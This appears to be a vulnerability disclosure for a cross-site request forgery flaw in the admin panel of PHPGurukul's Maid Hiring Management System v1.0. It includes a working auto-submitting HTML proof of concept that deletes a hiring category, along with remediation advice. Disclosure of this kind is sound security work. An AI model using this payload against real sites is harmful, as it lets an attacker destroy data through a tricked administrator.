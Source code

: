 **Project Name & Repo URL:**
[Maid Hiring Management System using PHP and MySQL](https://phpgurukul.com/maid-hiring-management-system-using-php-and-mysql/)

**Vulnerability Type:**
Client Side Request Forgery

**Affected Version(s):** v1.0

**💣Vulnerability Description:**
A Cross-Site Request Forgery (CSRF) vulnerability exists in the admin panel of PHPGurukul Hiring Management System, allowing an attacker to delete arbitrary hiring categories by tricking an authenticated admin into visiting a malicious site. This can lead to data deletion and unauthorized admin-level changes.

**👩‍💻Impact:**
Unauthorized category deletion.

**🛜Proof-of-Concept (PoC)**

1)There was a category delete functionality where only authenticated admin can delete category.
![1](https://github.com/user-attachments/assets/e89bd4f0-7e18-4160-a021-52782d46316a)
2)HTML code to send GET request to the endpoint `/admin/manage-category.php`
**CSRF-POC**
```
<html>
  <body>
    <form action="http://127.0.0.1/mhms/admin/manage-category.php">
      <input type="hidden" name="delid" value="13" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

3)Use the HTML code and craft a malicious URL.
![3](https://github.com/user-attachments/assets/53ce1a60-b26e-475e-8ea4-79dacbb18ab2)
4)After Admin clicks on the link, new category will be deleted.
![4](https://github.com/user-attachments/assets/20a44793-7785-4c3c-98ed-ea20a8649aa9)
![5](https://github.com/user-attachments/assets/f44af5f6-6f4c-44cb-8f47-72148378afcd)

**Recommendation:**
Implement of CSRF tokens in admin forms, enforce SameSite cookies, and validate request origin to prevent unauthorized actions.

